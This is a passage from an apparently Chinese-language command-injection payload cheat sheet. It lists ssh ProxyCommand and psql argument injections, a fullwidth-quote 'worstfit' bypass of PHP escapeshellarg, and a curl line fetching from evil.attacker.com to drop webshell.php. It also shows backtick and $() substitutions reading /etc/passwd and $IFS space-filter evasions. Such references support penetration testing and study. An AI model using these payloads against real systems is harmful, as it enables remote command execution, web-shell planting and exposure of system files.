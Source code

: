 * SSH

    ```ps1
    ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```

* psql

    ```ps1
    psql -o'|id>/tmp/foo'
    ```

参数注入可以利用[worstfit](https://blog.orange.tw/posts/2025-01-worstfit-unveiling-hidden-transformers-in-windows-ansi/)技术进行滥用。

在以下示例中，payload `＂ --use-askpass=calc ＂`使用**全角双引号**(U+FF02)而不是**常规双引号**(U+0022)

```php
$url = "https://example.tld/" . $_GET['path'] . ".txt";
system("wget.exe -q " . escapeshellarg($url));
```

有时，可能无法直接从注入点执行命令，但您可能能够将流重定向到特定文件，从而部署Web shell。

* curl

    ```ps1
    # -o, --output <file>        将输出写入文件而不是标准输出
    curl http://evil.attacker.com/ -o webshell.php
    ```

### 在命令内部

* 使用反引号进行命令注入。

  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```

* 使用替换进行命令注入

  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```

## 过滤器绕过

### 无空格绕过

* `$IFS`是一个特殊的shell变量，称为内部字段分隔符。默认情况下，在许多shell中，它包含空白字符（空格、制表符、换行符）。当在命令中使用时，shell会将`$IFS`解释为空格。`$IFS`在`ls`、`wget`等命令中不能直接作为分隔符使用；请改用`${IFS}`。

  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```
